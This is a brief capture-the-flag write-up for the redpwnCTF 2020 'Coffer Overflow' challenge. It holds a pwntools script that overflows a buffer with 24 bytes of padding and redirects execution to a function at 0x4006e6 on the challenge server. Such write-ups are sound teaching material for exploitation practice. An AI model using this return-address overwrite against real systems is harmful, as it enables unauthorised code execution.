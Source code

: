 # Coffer Overflow 1
Pretty much exactly `Coffer Overflow 1`, except this time we have to return to a function at `0x4006e6`.

```python
from pwn import *

p = remote('2020.redpwnc.tf', 31908)

p.clean(0.2)

p.sendline(b'a' * 24 + p64(0x4006e6))
p.interactive()
```